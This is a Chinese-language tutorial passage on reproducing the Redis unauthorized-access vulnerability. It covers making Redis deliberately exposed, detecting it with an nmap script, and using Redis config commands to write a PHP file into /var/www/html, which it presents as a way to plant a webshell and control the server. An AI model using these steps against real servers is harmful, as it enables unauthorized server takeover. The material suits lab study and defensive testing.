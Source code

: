 查看 redis 是否启动？

```
redis-cli
```

以上命令将打开以下终端：

```
redis 127.0.0.1:6379>
```

127.0.0.1 是本机 IP ，6379 是 redis 服务端口。现在我们输入 PING 命令。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktutT5iaPFAZBe6sfgoVTJiacRYD50reuFicfWYaSM2oN6riacspzTeAwNo3w/640?wx_fmt=jpeg)

以上说明我们已经成功安装了 redis。

安装完成 redis 之后，修改配置文件 redis.conf：

```
bid 127.0.0.1前面加上#号注释掉
protected-mode设为no
```

#### 漏洞检测

Nmap 检测：

```
nmap -p 6379 —script redis-info
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuzkn4AJf4ULKmZFuyhsP1ib7wv4K32siczqe9rvqJm9rFV1c2JLLn6GicA/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuhicZTicVKCng6cXf6TjOxpiaGb7v1QHvIf68UMkHvibonDPsxDwNtzFsaA/640?wx_fmt=jpeg)

#### 漏洞利用

Redis 未授权访问漏洞有多种利用方法，具体请看：https://www.freebuf.com/articles/network/158065.html

这里仅复现其中的一部分。

0x01 绝对路径写入 webshell

通过 redis 在指定的 web 目录下写入一句话木马，用菜刀连接可达到控制服务器的目的。

利用条件：

1、目标存在 web 目录

2、已知 web 绝对路径

3、存在写入权限

适用范围：windows，linux 版本。

利用过程：

利用 redis 写入一个 webshell 到目标 web 目录下:

```
config set dir "/var/www/html"
config set dbfilename phpinfo.php
set x "\\r\\n\\r\\n<?php phpinfo();?>\\r\\n\\r\\n"
save
```
